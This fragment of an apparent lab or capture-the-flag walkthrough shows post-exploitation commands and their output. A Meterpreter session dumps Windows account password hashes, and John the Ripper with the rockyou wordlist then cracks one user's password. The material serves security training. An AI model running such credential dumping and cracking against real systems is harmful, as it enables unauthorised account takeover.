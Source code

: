 meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


sudo john --format=NT --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:04 DONE (2020.05.27 14:54. 0.4889g/s 2493Kp/s 2493Kc/s 2495KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed

